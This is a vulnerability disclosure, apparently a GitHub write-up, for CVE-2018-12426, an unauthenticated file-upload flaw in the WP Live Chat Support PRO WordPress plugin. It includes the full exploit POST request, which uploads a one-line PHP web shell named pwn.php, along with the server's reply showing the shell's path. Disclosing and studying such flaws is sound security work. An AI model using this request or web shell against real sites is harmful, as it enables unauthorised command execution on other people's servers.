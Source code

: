 
# CVE-2018-12426

*Special shout out to Mattijs van Ommeren for all the outstanding help!*

[Suggested description]

     The WP live chat support PRO plugin before 8.0.07 for WordPress is
     vulnerable to unauthenticated Remote Code Execution due to
     client-side validation of allowed file types, as demonstrated by a
     v1/remote_upload request with a .php filename and the image/jpeg
     content type.
    
 
 [Additional Information]
 
     The following request was used to upload malicious files to the server:

     POST /wp-json/wp_live_chat_support/v1/remote_upload HTTP/1.1
     Host: localhost:8000
     Cookie: wp-settings-1=mfold%3Do%26imgsize%3Dfull%26libraryContent%3Dbrowse; wp-settings-time-1=1523622040; wplc_chat_status=5; 

      ... 7109443162421071041760069510
     Content-Disposition: form-data; name="file"; filename="pwn.php"
     Content-Type: image/jpeg

     <?php echo system($_GET["CMD"]); ?

      ... 7109443162421071041760069510
     Content-Disposition: form-data; name="timestamp"

     1528969272366
      ... 7109443162421071041760069510--

     //////////////////////////////////////////////////////////////////////////////////////////////////////////////////
     //////////////////////////////////////////////////////////////////////////////////////////////////////////////////

     The Response shows the file path where the file has been stored:

     HTTP/1.1 200 OK

     {"response":"http:\/\/localhost:8000\/wp-content\/uploads\/wp_live_chat\/\/pwn.php"}
 
 
 [Vulnerability Type]
 
    Insecure file-upload / Remote code execution
 
 
 [Vendor of Product]
 
    CodeCabin_ / WP-livechat
 
 
 [Affected Product Code Base]

    WP live chat support - PRO - All versions < 8.0.07
 
 
 [Affected Component]
 
     WP live chat support PRO - all versions < 8.0.07
 
 
 [Attack Type]
 
    Remote
 
 
 [Impact Code execution]
    
    true
 
 
 [Attack Vectors]

     The affected versions of WP live chat support PRO allow
     unauthenticated users to upload files through the chat window. The
     allowed file types (extensions) are validated by means of client side
     constraints. An attacker that submits a POST request directly to the
     endpoint which is responsible for the file-upload is able to bypass
     the client-side constraints and upload malicious files to the target
     server.
 

 [Has vendor confirmed or acknowledged the vulnerability?]

    true


 [Discoverer]
 
    Riccardo ten Cate


 [Reference]
 
    https://github.com/RiieCco/write-ups/tree/master/CVE-2018-12426
